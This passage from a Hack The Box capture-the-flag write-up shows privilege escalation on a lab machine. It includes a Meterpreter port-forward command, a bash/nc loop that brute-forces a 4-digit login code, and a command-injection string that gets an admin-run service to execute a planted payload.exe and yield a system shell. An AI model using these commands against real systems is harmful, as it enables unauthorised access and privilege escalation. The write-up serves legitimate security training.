 ```
Now that we have a ```Meterpreter``` session working, we can leverage the [```portfwd``` function](https://www.offensive-security.com/metasploit-unleashed/portfwd/).

```portfwd add -l 910 -p 910 -r 127.0.0.1```

{{< figure src="__GHOST_URL__/content/images/2019/11/forward.gif" >}}

Once we the ports forwarded, we can view what might be happening on the port with ```nc```.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-57.png" >}}

We see there is something running and it requires a 4 digit code to login. A quick script to brute force this login should do the trick.

```for i in {0..9}{0..9}{0..9}{0..9}; do echo $i; echo $i | nc -vn 127.0.0.1 910; done```

It lands on code 0021 that expects a transfer amount.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-58.png" >}}

When we enter an amount we see that it calls another tool to execute the transfer. Located under the admin profile, meaning it could be running as admin. Our goal here is to leverage ```command injection``` and get the application to launch our previously downloaded payload.exe as admin.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-59.png" >}}

We will use a basic LFI string to execute our payload:

```& ..\\..\\..\\..\\..\\..\\..\\\\C:\Windows\System32\spool\drivers\color\payload.exe```

It took some trial and error to get the proper length. Seemingly the exe checks for this? Anyway, once it was executed correctly, we got a ```Meterpreter``` session.

{{< figure src="__GHOST_URL__/content/images/2019/11/root.gif" >}}

We now have a system level shell! The flag is ours!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).


